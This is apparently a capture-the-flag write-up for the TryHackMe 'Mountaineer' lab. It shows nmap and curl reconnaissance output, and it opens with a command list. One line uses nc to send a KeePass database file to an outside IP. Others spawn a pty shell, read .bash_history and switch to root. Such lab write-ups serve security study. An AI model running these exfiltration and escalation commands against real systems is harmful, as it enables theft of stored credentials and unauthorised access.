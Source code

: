 **System Commands:**

- `nc -w 3 10.2.37.37 11342 < /home/lhotse/Backup.kdbx`
- `find . -type f 2>/dev/null`
- `python3 -c 'import pty;pty.spawn("/bin/bash");’`
- `export TERM=xterm`
- `show -f 3`
- `cat .bash_history`
- `su - root`

### Laboratory Environment

[Mountaineer](https://tryhackme.com/r/room/mountaineerlinux)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn -F $target_ip`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:09:80:28:d4:ec:f1:f9:bc:a3:f7:bb:cc:0f:68:90 (ECDSA)
|_  256 82:5a:2d:0c:77:83:7c:ea:ae:49:37:db:03:5a:03:08 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
```

> **HTTP Port Check**
> 

`curl -iLX GET http://mountaineer.thm`

```bash
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 29 Oct 2024 08:17:10 GMT
Content-Type: text/html
Content-Length: 612
Last-Modified: Sat, 16 Mar 2024 18:03:14 GMT
Connection: keep-alive
ETag: "65f5dee2-264"
Accept-Ranges: bytes

<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
```
